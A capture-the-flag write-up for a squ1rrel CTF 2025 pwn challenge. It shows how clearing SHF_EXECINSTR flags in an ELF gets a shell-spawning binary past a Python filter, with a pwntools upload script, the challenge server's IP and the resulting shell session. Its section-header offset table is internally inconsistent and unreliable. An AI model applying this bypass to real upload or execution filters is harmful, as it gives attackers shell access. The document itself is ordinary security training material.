



# squ1rrel CTF 2025

## Extremely Lame Filters 1

> why weren't you at ELF practice?!
>
>  Author: ZeroDayTea
>
> [`elf.py`](elf.py), [`fairy.py`](fairy.py)

Tags: _pwn_

## Solution
This challenge comes with two files. First `elf.py` contains a [`ELF`](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format) loader that does some validation while parsing and some functionality to run the file. Then `fairy.py` uses the loader to run a given received payload but adds some filtering before running.

The filter is very basic. It only checks if there is a section within the section table that has `EXECINSTR` set in the flag field.

```py
for section in elf.sections:
    if section.sh_flags & SectionFlags.EXECINSTR:
        raise ValidationException("!!")
```

The section header has the following layout (for a 64 bit binary).

```bash
Offset    Size    Field
0x00      4       sh_name
0x04      4       sh_type
0x08      8       sh_flags
0x0c      8       sh_addr
0x10      8       sh_offset
0x14      8       sh_size
0x18      4       sh_link
0x1c      4       sh_info
0x20      8       sh_addralign
0x24      8       sh_entsize
```

The whole structure is 64 byte wide and in the section table there can be multiple of those structures, sequentially, for each of the sections.

We are especially interested in the `sh_flags` field, that `identifies the attributes of the section`. There are attributes like `SHF_WRITE (0x1)`, `SHF_ALLOC (0x2)` or `SHF_EXECINSTR (0x4)`. The latter one is what the filter is testing.

Interestingly, this flags are just ignored by os elf loaders. This means, we can just clear the `SHF_EXECINSTR` flag from all the entries of the table and our executable still runs as normal. The filter is just `lame`, as the title suggests.

Lets put this to a test. First we need a binary, so we write a small program:

```c
#include <stdlib.h>

int main()
{
  system("/bin/sh");
}
```

Next we build the program and load it into a hexeditor.

```bash
$ gcc foo.c --output blub
```

First we need to know, where to find the section header table. Luckily the offset is noted down in the `ELF header` on offset `0x28` (in a 64 bit binary).



This is number needs to be interpreted as `little endian`, so our section header table starts at offset `0x3690`. Navigating to the offset we can see the section headers and within the each header, at offset `0x08` the flag starts. We can see all headers have `SHF_ALLOC` set (except the first one, which is a null header).



Scrolling a bit down we find some section headers with `SHF_EXECINSTR` set.



For these the bit needs to be cleared. If we check the value `0x06` and convert it to binary representation we find `0b00000110`. Indeed, `bit 2` and `bit 3` are set. When we unset bit 3 we are left with `0b00000010` which would be idendical to `0x02` when converted back to hexadecimal. So, all we have to do is to edit the marked flag values to contain 0x02 instead of 0x06.

After doing this (and saving the file) we can try to run the file locally.

```bash
$ ./blub
$ pwd
/home/ctf
```

Seems the file still loads and runs perfectly, uploading the data to the server bypasses the filter and gives us a shell to get the flag.

```py
from pwn import *
from base64 import b64encode

p = remote("20.84.72.194", 5002)
data = b64encode(open("blub", "rb").read())
p.sendline(data)
p.interactive()
```

```bash
$ python bar.py
[+] Opening connection to 20.84.72.194 on port 5002: Done
[*] Switching to interactive mode
I'm a little fairy and I will trust any ELF that comes by!!
$ ls
elf.py
flag.txt
run
$ cat flag.txt
squ1rrel{you_3x3c'd_me_:(}
```

Flag `squ1rrel{you_3x3c'd_me_:(}`